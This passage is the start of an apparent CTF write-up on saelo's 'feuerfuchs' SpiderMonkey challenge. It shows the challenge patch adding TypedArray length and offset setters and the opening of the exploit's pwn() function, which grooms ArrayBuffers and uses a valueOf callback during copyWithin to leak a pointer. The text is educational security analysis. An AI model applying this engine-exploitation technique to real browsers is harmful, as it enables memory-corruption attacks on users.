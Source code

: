 After that, we can just use

```
gef --args build_DBG.OBJ/dist/bin/js pwn.js
```
to debug the Javascript engine and learn how the exploit works. 

Now we're all ready, let's get started !


## Analyzing the Vulnerability ( the patch )

Let's start with the [patch](https://github.com/saelo/feuerfuchs/blob/master/feuerfuchs.patch) first: 

```
........................
... ( other patch ).....
........................

 /* static */ const JSPropertySpec
 TypedArrayObject::protoAccessors[] = {
-    JS_PSG("length", TypedArray_lengthGetter, 0),
     JS_PSG("buffer", TypedArray_bufferGetter, 0),
+    JS_PSGS("length", TypedArray_lengthGetter, TypedArray_lengthSetter, 0),
     JS_PSG("byteLength", TypedArray_byteLengthGetter, 0),
+    JS_PSGS("offset", TypedArray_offsetGetter, TypedArray_offsetSetter, 0),
     JS_PSG("byteOffset", TypedArray_byteOffsetGetter, 0),
     JS_PS_END
 };
 
........................
... ( other patch ).....
........................
```

We can see that the patch add `setter` to both `offset` and `length` property in the `TypedArray` class, which allow us to set the `offset` ( starting point of the data buffer ) and the `length` of a `TypedArray`. However the patch has also handled the boundary check for `offset` and `length` as well, so we can't do something like `tarray.offset=10000` and use out-of-boundary (OOB) read/write to exploit the service. We'll have to find another way to exploit the vulnerability.


## Analyzing the Exploit

We now start analyzing the [exploit code](https://github.com/saelo/feuerfuchs/blob/master/exploit/pwn.js) that saelo wrote for this challenge. 
The exploit function start at line 233:

```javascript
function pwn() {
    // Allocate multiple ArrayBuffers of the largest size such that the data is still stored inline
    var buffers = [];
    for (var i = 0; i < 100; i++) {
        buffers.push(new ArrayBuffer(96));
    }

    var view = new Uint8Array(buffers[79]); // view is our TypedArray
    var hax = { valueOf: function() { view.offset = 88; return 0; } };

    // Trigger the bug first time to leak the data pointer of the following ArrayBuffer
    view.copyWithin(hax, 32+8, 40+8);
```
